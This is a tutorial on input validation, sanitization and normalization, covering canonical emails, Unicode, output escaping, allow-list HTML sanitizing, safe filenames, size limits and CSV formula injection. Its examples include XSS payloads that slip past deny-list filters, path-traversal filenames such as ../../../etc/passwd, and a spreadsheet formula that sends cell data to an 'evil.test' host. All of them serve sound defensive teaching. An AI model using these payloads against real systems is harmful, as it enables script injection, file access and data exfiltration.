

# Sanitization and Normalization

A parcel arrives at a warehouse. Three people touch it before it reaches a
shelf. The first checks the paperwork and rejects anything with a wrong
address — that is **validation**. The second removes the wet packing straw,
because straw rots and ruins the neighbouring boxes — that is
**sanitization**. The third relabels it in the warehouse's own format, so
`Bldg 4 / Rm 12` and `building 4, room 12` end up in the same place — that is
**normalization**.

Skip the second and you store something dangerous. Skip the third and you
store the same thing twice under two spellings.

> **📌 In one line:** validation says *no*, sanitization *removes* the
> dangerous part, and normalization *rewrites valid data into one canonical
> form* — and only normalization is allowed to change what the user meant.

## Table of Contents

1. [Three Words People Confuse](#three-words-people-confuse)
2. [Normalization in Practice](#normalization-in-practice)
3. [Normalize Before the Uniqueness Check](#normalize-before-the-uniqueness-check)
4. [Escaping Is the Consumer's Job](#escaping-is-the-consumers-job)
5. [Where Each Escaping Happens](#where-each-escaping-happens)
6. [Rich Text: Allow-List Only](#rich-text-allow-list-only)
7. [File Names, Paths, and Slugs](#file-names-paths-and-slugs)
8. [Size and Shape Limits](#size-and-shape-limits)
9. [CSV and Formula Injection](#csv-and-formula-injection)
10. [Advanced: At the Boundary or in the Database?](#advanced-at-the-boundary-or-in-the-database)
11. [Common Mistakes](#common-mistakes)
12. [Questions to Test Yourself](#questions-to-test-yourself)
13. [Related](#related)

---

## Three Words People Confuse

| | **Validation** | **Sanitization** | **Normalization** |
|---|---|---|---|
| Question it asks | Is this acceptable? | Is any part of this dangerous? | Is this in our one canonical form? |
| Action on failure | Reject the request | Strip or neutralise the part | Rewrite the value |
| Changes the value? | ❌ Never | ✅ Removes something | ✅ Reshapes it |
| Visible to the user? | Yes — a `422` with details | Sometimes — their `<script>` vanished | Rarely — `  Sara ` became `Sara` |
| Typical example | `email` must look like an email | Strip `<script>` from rich text | Lowercase the email |
| Runs when | First | On the way *out*, per destination | Right after validation |

The ordering matters and is easy to get backwards:



Two things to notice. **Normalization happens before the uniqueness check**,
not after — otherwise you compare the wrong values. And **escaping happens at
the far right**, at the moment of output, not when the data arrives.

> **⚠️ Warning:** the words are often used loosely, and "sanitize this input"
> usually means one of the three. Ask which one is meant before you write the
> code; the three have different correct places in the pipeline.

---

## Normalization in Practice

Normalization turns many equivalent spellings of the same value into one.

| Field | Raw | Canonical | Rule |
|---|---|---|---|
| Email | `"  Afsar@Example.COM "` | `afsar@example.com` | Trim, lowercase |
| Name | `"Afsar   Tanvir "` | `Afsar Tanvir` | Trim, collapse inner spaces |
| Phone | `"+880 (171) 234-5678"` | `+8801712345678` | Keep `+` and digits (E.164) |
| Slug | `"Q1 Migration!"` | `q1-migration` | Lowercase, hyphenate, strip symbols |
| URL | `"Example.com/Path/"` | `https://example.com/Path` | Scheme, lowercase host, drop trailing `/` |
| Unicode text | `"café"` | `"café"` (NFC) | Unicode normalization |
| Tags | `["Bug", "bug", " BUG "]` | `["bug"]` | Trim, lowercase, de-duplicate |

### The duplicate-account bug

Here is the bug, exactly as it happens in real products.

Monday, a user registers on the web form. Their browser autofills
`afsar@example.com`. Row created.

Thursday, the same person signs up from your iOS app. They type on a phone
keyboard that capitalises the first letter, and they paste with a trailing
space: `" Afsar@Example.COM "`. Your `SELECT * FROM users WHERE email = ?`
finds nothing, because that string is not byte-identical to the stored one.
Your `UNIQUE` index on `email` does not fire, for the same reason.

You now have two accounts. The consequences compound:

- Password reset goes to whichever row the lookup happened to hit.
- Their projects are split across two accounts and they cannot see half.
- Billing charges them twice, or the paid plan sits on the wrong row.
- The company invitation they were sent attaches to the other account.
- Support cannot merge the accounts without a manual database script.

```ts
// ❌ BROKEN — stores whatever arrived.
await db.user.create({ data: { email: body.email, name: body.name } })

// ✅ FIXED — normalize first, then everything downstream compares equal.
const email = body.email.trim().toLowerCase()
const name  = body.name.normalize('NFC').trim().replace(/\s+/g, ' ')
await db.user.create({ data: { email, name } })
```

### Unicode: two strings that look identical

`café` can be encoded two ways: `caf` + `é` (one code point, NFC), or
`caf` + `e` + a combining accent (two code points, NFD). They render
identically and compare unequal.

```ts
'café'.normalize('NFC') === 'café'.normalize('NFD')   // false
'café'.normalize('NFC') === 'café'.normalize('NFC')  // true
```

macOS filenames arrive as NFD; most web input is NFC. Normalize every
user-supplied string to NFC at the boundary and the problem disappears.

> **⚠️ Warning:** do **not** lowercase the local part of an email if you need
> strict RFC correctness — `Afsar@x.com` and `afsar@x.com` are technically
> allowed to be different mailboxes. In practice no real provider does this,
> and every major product lowercases the whole address. Choose one rule,
> write it down, and apply it everywhere.

---

## Normalize Before the Uniqueness Check

The sequence is not negotiable:

```text
1. Validate   → reject if it is not a plausible email at all
2. Normalize  → trim + lowercase
3. Check      → SELECT … WHERE email = <normalized>
4. Store      → INSERT the normalized value
```

Doing step 3 before step 2 means you compare a raw string against canonical
rows and always miss. Doing step 4 before step 2 means the row you just wrote
will fail to match its own lookup tomorrow.

The same rule applies to any field with a uniqueness rule: company slugs, API
key names, tag names, invitation emails, external reference IDs.

```ts
// A tiny helper used by every code path that touches an email.
export const canonicalEmail = (raw: string) =>
  raw.normalize('NFKC').trim().toLowerCase()
```

> **💡 Tip:** put the normalizer in the schema so it cannot be forgotten. Zod's
> `.transform()` runs as part of parsing, so the parsed object *is* canonical:
> `z.string().email().transform(canonicalEmail)`. See
> [Schema Validation](02-schema-validation.md).

And because application code is never the only writer, add the database-level
backstop too — a unique index on the normalized expression. That is the
[Advanced](#advanced-at-the-boundary-or-in-the-database) section below.

---

## Escaping Is the Consumer's Job

This is the key insight of the whole file, and the one most tutorials get
wrong.

**There is no such thing as "safe text".** A string is dangerous only in
relation to a *destination*. `O'Brien` is harmless in HTML and breaks a
naively built SQL string. `<b>hi</b>` is harmless in SQL and injects markup
into a web page. `--drop` is harmless in both and is a flag to a shell command.

So the escaping must happen **where the value leaves your system**, by rules
that belong to *that* destination. Never at input time.

### BROKEN: escaping on the way in

```ts
// ❌ BROKEN — HTML-escape before storing.
const comment = escapeHtml(body.comment)   // "AT&T" → "AT&amp;T"
await db.comment.create({ data: { body: comment } })
```

Four things are now wrong.

1. **The database holds a lie.** The user typed `AT&T`; the column says
   `AT&amp;T`. Every non-HTML consumer — a CSV export, a plain-text email, a
   search index, a mobile app — shows the wrong thing.
2. **Double escaping.** Your React frontend escapes on render, as it should.
   The user sees `AT&amp;T` on screen. Someone "fixes" it with a second escape
   somewhere and now it is `&amp;amp;`. This is the classic bug.
3. **Wrong length checks.** `AT&T` is 4 characters; `AT&amp;T` is 8. A
   200-character limit silently becomes ~150 for anyone who types `&`.
4. **It does not even protect SQL.** HTML escaping does nothing about quotes
   in a query. The real protection is parameterized queries, which you need
   regardless.

### FIXED: store the truth, escape at each destination

```ts
// ✅ FIXED — store exactly what the user typed (after normalization).
await db.comment.create({ data: { body: body.comment.normalize('NFC').trim() } })
```

```tsx
// Web: the template engine escapes. React does this automatically.
<p>{comment.body}</p>              // AT&T renders correctly, <script> is inert
```

```ts
// CSV export: a different destination, a different rule.
csvCell(comment.body)

// Plain-text email: no escaping at all.
sendMail({ text: comment.body })
```

> **📌 Remember:** store the user's real text. Escape once, at the last
> possible moment, using the rules of the place it is going.

---

## Where Each Escaping Happens

| Destination | The danger | The correct defence | Never do this |
|---|---|---|---|
| HTML page | XSS | Escape at render (React/JSX, template auto-escaping) | String-concatenate into HTML |
| HTML attribute | Attribute-break XSS | Attribute-context escaping, always quote | Unquoted attributes |
| `<script>` block or inline handler | XSS | Do not put user data there; pass it as JSON data | `onclick="doIt('<%= x %>')"` |
| URL / query string | Open redirect, param injection | `encodeURIComponent`, allow-list redirect targets | Concatenate into a URL |
| SQL | SQL injection | Parameterized queries / bound parameters | String interpolation |
| SQL identifiers (table, column) | Injection via `ORDER BY` | An allow-list of permitted names | Interpolate a client-supplied column |
| Shell command | Command injection | `execFile(cmd, [args])` — an argument array | `exec("convert " + name)` |
| JSON response | Broken parsing, XSS in `<script>` | `JSON.stringify`, correct `Content-Type` | Hand-built JSON strings |
| Log line | Log forging, log injection | Structured logging (fields, not concatenation) | `logger.info("user " + name)` |
| CSV / spreadsheet | Formula injection | Prefix `= + - @` — see below | Write the raw cell |
| LDAP, XML, regex | Injection in each syntax | That syntax's own escaping function | Assume HTML escaping covers it |

Two rows deserve extra words.

**SQL.** Parameterized queries are not an escaping trick; the driver sends the
query text and the values on separate channels, so a value can never become
syntax. This is the only real defence, and it is covered in
[Injection Attacks](../11-api-security/02-injection-attacks.md).

**Shell.** The safest answer is not to build shell commands from user input at
all. If you must run a binary, use the array form — `execFile('convert',
[inputPath, outputPath])` — which passes arguments directly to the process and
never invokes a shell parser.

---

## Rich Text: Allow-List Only

Sometimes you genuinely must store HTML: a comment editor, a description
field, an email template. Now sanitization is unavoidable — and there is
exactly one correct strategy.

**Allow-list (correct).** Parse the HTML into a tree, keep only the tags and
attributes on your approved list, drop everything else.

```ts
import createDOMPurify from 'dompurify'
import { JSDOM } from 'jsdom'

const DOMPurify = createDOMPurify(new JSDOM('').window)

export const sanitizeRichText = (dirty: string) =>
  DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'u', 'a', 'ul', 'ol', 'li', 'code', 'pre'],
    ALLOWED_ATTR: ['href', 'title'],
    ALLOWED_URI_REGEXP: /^(https?:|mailto:)/i,
  })
```

**Deny-list (always wrong).** "Strip `<script>` tags and `onerror=`." Here are
four payloads that walk straight past that filter:

```html

<svg><animate onbegin=alert(1) attributeName=x dur=1s>
<a href="javascript:alert(1)">click</a>
<scr<script>ipt>alert(1)</scr</script>ipt>
```

Deny-lists fail for a structural reason: **you must enumerate every dangerous
thing, and the attacker only needs one you missed.** HTML has hundreds of
elements, hundreds of event-handler attributes, several URL schemes that
execute code, multiple encodings, and browsers that forgive malformed markup
by "fixing" it into something executable. New attributes ship with every
browser release. Your regex does not update itself.

> **⚠️ Warning:** never write your own HTML sanitizer, and never sanitize HTML
> with a regular expression. HTML is not a regular language; the parser and
> your regex will disagree, and the browser sides with the parser. Use a
> maintained library (DOMPurify, sanitize-html) and keep it updated.

Sanitize rich text **on the way in** (store the cleaned HTML), because parsing
HTML on every read is expensive — but keep escaping at render for every
*plain-text* field. These two rules do not conflict: one field is HTML by
contract, the other is text by contract.

---

## File Names, Paths, and Slugs

A user-supplied filename is a string that your operating system will
interpret. That is a dangerous combination.

| Attack | Example input | What happens |
|---|---|---|
| Path traversal | `../../../etc/passwd` | Writes or reads outside your upload directory |
| Absolute path | `/etc/cron.d/evil` | Ignores your base directory entirely |
| Null byte | `report.pdf\0.php` | Truncation in older stacks turns it into `.php` |
| Windows reserved | `CON`, `NUL`, `LPT1` | Fails or behaves strangely on Windows hosts |
| Hidden file | `.htaccess`, `.env` | Overwrites configuration |
| Overlong name | 5,000 characters | Filesystem error, or truncation into a collision |
| Unicode look-alike | `rероrt.pdf` (Cyrillic) | Bypasses a name-based check |

```ts
// ❌ BROKEN — the client names the file on your disk.
fs.writeFileSync(path.join(UPLOAD_DIR, req.file.originalname), buf)

// ✅ FIXED — you name the file; their name is only metadata.
const storedName = `${ulid()}${safeExtension(req.file.originalname)}`
const target = path.resolve(UPLOAD_DIR, storedName)
if (!target.startsWith(path.resolve(UPLOAD_DIR) + path.sep)) throw new Error('bad path')
fs.writeFileSync(target, buf)
await db.file.create({ data: { storedName, displayName: req.file.originalname.slice(0, 255) } })
```

The pattern: **generate the stored name yourself, keep the user's name in a
database column for display, and resolve the final path and assert it is still
inside the base directory.** Uploads have more to them — content-type
sniffing, size limits, virus scanning — in
[File Uploads](../12-files-and-integrations/01-file-uploads.md).

### Slugs

```ts
export const slugify = (input: string) =>
  input
    .normalize('NFKD').replace(/[̀-ͯ]/g, '')  // strip accents
    .toLowerCase()
    .replace(/[^a-z0-9]+/g, '-')                        // allow-list of characters
    .replace(/^-+|-+$/g, '')
    .slice(0, 80) || 'untitled'
```

Note the allow-list (`[^a-z0-9]`) rather than a list of characters to remove,
and the `|| 'untitled'` fallback — a title of `"!!!"` otherwise becomes an
empty slug and an empty URL segment.

---

## Size and Shape Limits

A request that is *valid* can still be an attack if it is large enough.
Missing limits turn into denial of service — one request that eats all your
CPU or memory.

| Limit | Sensible default | Without it |
|---|---|---|
| Max body size | 100 KB JSON (larger only where needed) | A 500 MB body exhausts memory |
| Max string length | Per field: 200 for a title, 10,000 for a description | A 50 MB "name" reaches the database |
| Max array length | 100 items, or whatever the UI allows | `{"ids": [ …1,000,000 ]}` becomes a giant `IN` clause |
| Max object nesting depth | 10 | Deeply nested JSON exhausts the parser's stack |
| Max number of keys | 100 | Hash-collision and memory attacks |
| Max upload size | Per file *and* per request | Disk fills, then everything fails |
| Max page size | `perPage <= 100` | One request scans the whole table |

```ts
// The framework-level limit — the first line of defence, before parsing.
app.use(express.json({ limit: '100kb' }))

// The schema-level limit — per field, where the real shape is known.
const bulkUpdateSchema = z.object({
  taskIds: z.array(z.string().uuid()).min(1).max(100),
  status:  z.enum(['open', 'done']),
  note:    z.string().max(2000).optional(),
})
```

Both layers are needed. The body limit stops a 500 MB upload before you spend
memory parsing it; the schema limit stops a perfectly small body that asks you
to update a million rows.

> **⚠️ Warning:** nesting depth is the one people forget. A 20 KB body of
> `[[[[[[…]]]]]]` is tiny on the wire and can still blow the stack of a
> recursive validator. Some JSON parsers cap depth; most validation libraries
> do not, so cap it explicitly at the parse step.

---

## CSV and Formula Injection

Your app has a "download as CSV" button. A user sets their display name to:

```text
=HYPERLINK("https://evil.test/?d="&A1&A2&A3,"Click for report")
```

You write it to the CSV honestly. An admin opens the file in Excel, Google
Sheets or LibreOffice. The spreadsheet sees a leading `=` and treats the cell
as a **formula**, not text. Depending on the application and its settings, the
formula can exfiltrate other cells through a URL, or — with `=cmd|…` in older
Excel and a confirmation click — run a command.

This is not an injection into your system. It is your system handing a
weaponised file to your own staff.

The fix is small: any cell whose first character is `=`, `+`, `-`, `@`, tab or
carriage return gets a prefix that makes the spreadsheet treat it as text.

```ts
const RISKY = /^[=+\-@\t\r]/

export function csvCell(value: unknown): string {
  const s = String(value ?? '')
  const safe = RISKY.test(s) ? `'${s}` : s      // leading apostrophe = literal text
  return `"${safe.replace(/"/g, '""')}"`        // normal CSV quoting, still required
}
```

Two separate rules are in that function: the formula prefix, and ordinary CSV
quoting for commas, quotes and newlines. You need both.

> **💡 Tip:** apply this at export time, not at input time. The value is
> perfectly fine in your database and in your web UI — it is dangerous only in
> a spreadsheet, which is exactly the "escaping belongs to the consumer" rule
> again.

---

## Advanced: At the Boundary or in the Database?

Application-level normalization has one weakness: it only protects the code
paths that remember to call it. A background job, an admin script, a data
import, or a second service writing to the same database can all bypass it.

Three database-level options, strongest last.

### 1. A functional unique index

Enforce uniqueness on the normalized value, whatever was stored:

```sql
CREATE UNIQUE INDEX users_email_lower_uniq ON users (LOWER(email));
```

Now two rows differing only in case are rejected by PostgreSQL, from any
client. Queries must match the indexed expression to use it —
`WHERE LOWER(email) = $1` — which is exactly the trap explained in
[expression and functional indexes](../../databases/indexing/02-expression-and-functional-indexes.md).

### 2. A case-insensitive collation

PostgreSQL 12+ supports non-deterministic collations, so comparison itself
ignores case:

```sql
CREATE COLLATION case_insensitive (provider = icu, locale = 'und-u-ks-level2',
                                   deterministic = false);
ALTER TABLE users ALTER COLUMN email TYPE text COLLATE case_insensitive;
```

Plain `WHERE email = $1` now matches regardless of case, and a normal `UNIQUE`
constraint becomes case-insensitive. The cost: some index and pattern-matching
operations behave differently, and it is easy to forget the column is special.

### 3. A generated column

Store both the original and the canonical form, with the database computing
the second:

```sql
ALTER TABLE users
  ADD COLUMN email_canonical text GENERATED ALWAYS AS (LOWER(TRIM(email))) STORED;
CREATE UNIQUE INDEX ON users (email_canonical);
```

This keeps the user's original spelling for display, guarantees the canonical
form can never drift, and gives you a plain column to index and query.

| Approach | Keeps original | Enforced for all writers | Query must change | Complexity |
|---|---|---|---|---|
| Application only | ❌ | ❌ | No | Lowest |
| Functional unique index | ✅ | ✅ (uniqueness only) | Yes, `LOWER(...)` | Low |
| CI collation | ✅ | ✅ | No | Medium, surprising |
| Generated column | ✅ | ✅ | Use the new column | Low–medium |

> **📌 Remember:** these are not alternatives to normalizing in the
> application — they are the backstop underneath it. Normalize at the boundary
> so your code is consistent and your errors are friendly; enforce in the
> database so a forgotten code path cannot corrupt the data.

---

## Common Mistakes

| Mistake | Why it is wrong | Do this instead |
|---|---|---|
| Treating "sanitize" as one operation | Three different jobs at three different points | Validate, then normalize, then escape per destination |
| HTML-escaping before storing | Wrong data in the database, double escaping, wrong lengths | Store the real text; escape at render |
| Checking uniqueness before normalizing | Compares a raw string against canonical rows; always misses | Normalize, then look up, then store |
| Normalizing in only one code path | Signup normalizes, invitation does not, duplicates appear | One shared helper, called from the schema |
| Skipping Unicode normalization | Two visually identical names compare unequal | `.normalize('NFC')` on every text field |
| Deny-list HTML filtering | Attackers only need the one case you missed | Allow-list with a maintained library |
| Any regex-based HTML sanitizer | HTML is not a regular language | A real parser-based sanitizer |
| Using the client's filename on disk | Path traversal, null bytes, overwritten config | Generate the name; store theirs for display only |
| Relying on HTML escaping to stop SQL injection | Different syntax, different danger | Parameterized queries |
| No max array length or nesting depth | One small request exhausts CPU or memory | Limits at both the body and schema layers |
| Exporting raw user text to CSV | Formula injection against your own staff | Prefix `= + - @` at export time |
| Normalizing only in the application | Scripts and other services bypass it | A functional unique index or generated column |

---

## Questions to Test Yourself

1. Give one sentence each for validation, sanitization and normalization, and
   say which of the three is allowed to change the value the user sent.
2. Walk through the duplicate-account bug from the two signups to the support
   ticket. At which exact step does normalization prevent it?
3. Why must normalization run *before* the uniqueness check and before the
   `INSERT`, rather than after either?
4. A teammate escapes HTML in a validation middleware "so it is safe in the
   database". Name four separate problems that creates.
5. Where does `&amp;amp;` come from, and which of the two escapes should be
   removed?
6. The filter strips `<script>` tags. Write two payloads that still run
   JavaScript, and explain the structural reason deny-lists fail.
7. A request body is 18 KB and takes 40 seconds of CPU. What shape is it, and
   which limit would have stopped it?
8. Your CSV export is "just data from our own database". Why is it still an
   attack surface, and who is the victim?
9. You add `CREATE UNIQUE INDEX ON users (LOWER(email))`. Which existing
   queries must change to keep using an index, and why?

---

## Related

- [Why validation matters](01-why-validation-matters.md) — the trust boundary
  that all of this sits on.
- [Schema validation](02-schema-validation.md) — where the normalizing
  `.transform()` and the length limits belong.
- [Injection attacks](../11-api-security/02-injection-attacks.md) — SQL,
  command and template injection in full, and why parameterization is the only
  real answer.
- [File uploads](../12-files-and-integrations/01-file-uploads.md) — the rest
  of the upload story: content types, size limits, storage.
- [Expression and functional indexes](../../databases/indexing/02-expression-and-functional-indexes.md)
  — how `LOWER(email)` indexes work and when the planner can use them.
- [Constraints and data integrity](../../databases/data-modeling/02-constraints-and-data-integrity-part-1.md)
  — the database-side guarantees that outlive your application code.
- [Error response design](../02-rest-api-design/05-error-response-design.md) —
  the `422` body returned when validation rejects, before normalization runs.
